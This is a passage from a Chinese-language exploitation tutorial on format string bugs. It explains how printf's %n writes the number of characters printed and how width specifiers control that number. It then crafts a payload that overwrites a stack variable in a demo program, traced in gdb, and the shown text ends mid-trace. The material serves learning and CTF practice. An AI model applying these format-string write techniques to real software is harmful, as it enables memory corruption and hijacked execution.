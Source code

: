 ```text
$ ./a.out
hello
6
```

`i` 被赋值为 6，因为在遇到转换指示符之前一共写入了 6 个字符（`hello` 加上一个空格）。在没有长度修饰符时，默认写入一个 `int` 类型的值。

通常情况下，我们要需要覆写的值是一个 shellcode 的地址，而这个地址往往是一个很大的数字。这时我们就需要通过使用具体的宽度或精度的转换规范来控制写入的字符个数，即在格式字符串中加上一个十进制整数来表示输出的最小位数，如果实际位数大于定义的宽度，则按实际位数输出，反之则以空格或 0 补齐（`0` 补齐时在宽度前加点`.` 或 `0`）。如：

```c
#include<stdio.h>
void main() {
    int i;

    printf("%10u%n\n", 1, &i);
    printf("%d\n", i);
    printf("%.50u%n\n", 1, &i);
    printf("%d\n", i);
    printf("%0100u%n\n", 1, &i);
    printf("%d\n", i);
}
```

```text
$ ./a.out
         1
10
00000000000000000000000000000000000000000000000001
50
0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000001
100
```

就是这样，下面我们把地址 `0x8048000` 写入内存：

```c
printf("%0134512640d%n\n", 1, &i);
```

```text
$ ./a.out
...
0x8048000
```

还是我们一开始的程序，我们尝试将 `arg2` 的值更改为任意值（比如 `0x00000020`，十进制 32），在 gdb 中可以看到得到 `arg2` 的地址 `0xffffd538`，那么我们构造格式字符串 `\x38\xd5\xff\xff%08x%08x%012d%13$n`，其中 `\x38\xd5\xff\xff` 表示 `arg2` 的地址，占 4 字节，`%08x%08x` 表示两个 8 字符宽的十六进制数，占 16 字节，`%012d` 占 12 字节，三个部分加起来就占了 4+16+12=32 字节，即把 `arg2` 赋值为 `0x00000020`。格式字符串最后一部分 `%13$n` 也是最重要的一部分，和上面的内容一样，表示格式字符串的第 13 个参数，即写入 `0xffffd538` 的地方（`0xffffd564`），`printf()` 就是通过这个地址找到被覆盖的内容的：

```text
$ python2 -c 'print("\x38\xd5\xff\xff%08x%08x%012d%13$n")' > text
$ gdb -q a.out
Reading symbols from a.out...(no debugging symbols found)...done.
gdb-peda$ b printf  
Breakpoint 1 at 0x8048350
gdb-peda$ r < text  
[----------------------------------registers-----------------------------------]
EAX: 0xffffd564 --> 0xffffd538 --> 0x88888888
EBX: 0x804a000 --> 0x8049f14 --> 0x1
ECX: 0x1
EDX: 0xf7f9883c --> 0x0
ESI: 0xf7f96e68 --> 0x1bad90
EDI: 0x0
EBP: 0xffffd5f8 --> 0x0
ESP: 0xffffd52c --> 0x8048520 (<main+138>:      add    esp,0x20)
```